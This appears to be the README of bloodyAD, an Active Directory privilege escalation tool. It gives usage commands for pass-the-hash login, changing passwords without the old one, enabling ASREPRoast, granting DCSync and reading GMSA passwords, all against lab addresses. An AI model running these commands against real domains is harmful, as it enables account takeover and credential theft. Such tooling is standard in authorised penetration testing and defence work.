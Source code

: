 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  
# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD 
`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description
This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3

Use the requirements.txt for your virtual environment: `pip3 install -r requirements.txt`

## Usage
Simple usage:
```ps1
python bloodyAD.py --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword john.doe 'Password123!'
```

**Note:** You can find more examples on https://cravaterouge.github.io/

List of all available functions:
```ps1
[bloodyAD]$ python bloodyAD.py -h
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                   ...

AD Privesc Swiss Army Knife

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                        Function to call
```

Help text to use a specific function:
```ps1
[bloodyAD]$ python bloodyAD.py --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

## How it works
bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. ~~A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.~~ Exchange of sensitive information such as passwords are now supported using cleartext LDAP.

## Useful commands
```ps1
# Get group members
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
python bloodyAD.py -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes gmsaAccount$ msDS-ManagedPassword
```